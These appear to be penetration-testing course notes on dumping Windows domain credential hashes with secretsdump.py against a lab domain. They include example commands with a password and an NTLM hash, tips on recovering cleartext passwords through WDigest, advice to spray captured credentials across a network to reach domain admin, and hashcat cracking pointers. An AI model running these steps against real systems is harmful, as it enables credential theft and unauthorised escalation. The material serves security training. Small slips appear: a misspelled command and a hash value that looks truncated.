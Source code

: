 # Dumping hashes 
```
secretsdump.py <DOMAIN/user>: '<password>'@<IP>
## Example
secretsdump.py MARVEL.local/tstark: 'Password2'@192.168.88.102
## w/hash
secretsdump.py administrator:192.168.88.101 -hashes ad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```
All accounts on the device besides: Guest, Default, WDGAUtilityAccount are worth looking at 

There is a chance to dump passwords in clear text
	passwords stored in the registry - they will appear in clear text
	if wdigest (older protocol) 
		enabled by default on older OS
			want to find an older OS via info gathering 
			this process might be enabled by default
when pentesting a real network, once we have a foothold on an acccount, use that account to spray the rest of the network, you can then find more accounts, and then spray again. this can allow you to finally find an domain admin or gain higher priv

Cracking passwords
	you only need the second portion (NT) 
	hashcast --help 
	hashcat --help | grep ntlm

